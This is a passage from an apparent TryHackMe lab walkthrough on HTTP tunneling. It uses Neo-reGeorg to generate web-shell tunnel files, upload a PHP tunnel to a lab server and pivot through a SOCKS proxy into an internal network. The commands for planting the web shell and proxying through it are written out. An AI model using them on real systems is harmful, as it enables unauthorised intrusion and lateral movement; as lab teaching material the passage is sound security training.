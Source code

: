 ```markup
           $$                 '$$$


    [ Github ] https://github.com/L-codes/neoreg

    [+] Mkdir a directory: neoreg_servers
    [+] Create neoreg server files:
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
```

The previous command generates encrypted Tunneling clients with thm key in the neoreg_servers/ directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc. In our scenario, we will be uploading the tunnel.php file via the uploader machine. To access the uploader machine, you can visit the following URL: http://10.10.39.16/uploader or https://10-10-39-16.p.thmlabs.com/uploader without the need for a VPN.

![The Victim's uploader](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/2445ab5b8bc971b51f8ebe3ffbd0c07d.png)

To upload the PHP file, use admin as the key to let you upload any files into the uploader.thm.com. Once we have uploaded the file, we can access it on the following URL: http://10.10.39.16/uploader/files/tunnel.php.

Creating an HTTPTunnel  

```markup
root@AttackBox:/opt/Neo-reGeorg# python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php
```

We need to use the neoreg.py to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to the PHP file that we uploaded on the uploader machine.

Once it is connected to the tunneling client, we are ready to use the tunnel connection as a proxy binds on our local machine, 127.0.0.1, on port 1080.

For example, if we want to access the app.thm.com, which has an internal IP address 172.20.0.121 on port 80, we can use the curl command with --socks5 argument. We can also use other proxy applications, such as ProxyChains, FoxyProxy, etc., to communicate with the internal network. 

Access the app.thm.com machine via theHTTPTunneling  

```markup
root@AttackBox:~$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
Welcome to APP Server!
```

The following diagram shows the traffic flow as it goes through the uploader machine and then communicates with the internal network devices, which in this case, is the App machine. Note that if we check the network traffic from the App machine, we see that the source IP address of incoming traffic comes from the uploader machine.
